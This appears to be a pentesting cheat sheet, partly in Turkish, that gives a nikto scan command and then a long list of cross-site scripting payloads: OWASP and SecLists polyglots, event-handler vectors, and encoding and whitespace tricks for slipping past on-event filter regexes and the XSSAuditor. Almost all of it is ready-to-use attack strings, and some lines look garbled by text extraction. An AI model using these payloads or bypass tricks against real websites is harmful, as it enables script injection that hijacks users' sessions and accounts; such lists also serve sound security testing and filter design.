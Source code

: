 ```jsx
nikto -h scanme.nmap.org
-ssl sslsiz için
```

## XSS

***Seclists*** 

OWASP Polygot 

```jsx
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

**XSS-Polyglot-Ultimate-0xsobky.txt**

```jsx
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

 —

```jsx
javascript:/*</script><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+((new(Image)).**src**=([]+/\/1\.1\.\1\./).replace(/\\/g,[]))//'>
```

```jsx
<img src=x onerror=alert(1)>
<body onload=alert(1)>
<input type=image src=x:x onerror=alert(1)>
<isindex onmouseover="alert(1)">
<form oninput=alert(1)><input></form>
<textarea autofocus onfocus=alert(1)>
<input oncut=alert(1)>
'-alert(1)-'
?%27accesskey=%27x%27onclick=%27alert(1) --> Tarayıcı kısa yol tuşu ayarlayarak XSS yapma ALT+Shift+X(bu örnekte)

very common regex (on\w+s*=) --> on ile başlayan eventleri engeller.

<svg/onload=alert(1)> --> sondaki < işaretini kaldırmak XSSAuditor'ü atlatır.
<svg//////onload=alert(1)>
<svg id=x;onload=alert(1)>
<svg id='x'onload=alert(1)>

(?i)([\s\"'`;\/0-9\=]+on\w+}s*=) --> gelişmiş hali

<svg onloa*d%09=alert(1)>
<svg %09onload=alert(1)>*
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2C%3B=alert(1)>
<svg onload%0B=alert(1)>

sonraki adım -->(?i)([\s\"'`;\/0-9\=\x00\xo9\0A\x0B\x0C\0x0D\x3B\x2C\x28\x3B]+on\w+[\s\x00\xo9\0A\x0B\xOC\0x0D\x3B\x2C\x28\x3B]*?=)

Karakter escaping> Unicode
<script>\u0061lert(1)</script>
<script>\u0061\u006C\u0065\u0072\u0074(1)</script> 
<script>eval("\u0061lert(1)")</script>
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>

Karkater Escaping > Decimal, Octal,Hexadecimal
<img src=x onerror="\u0061lert(1)"/> --Unicode
```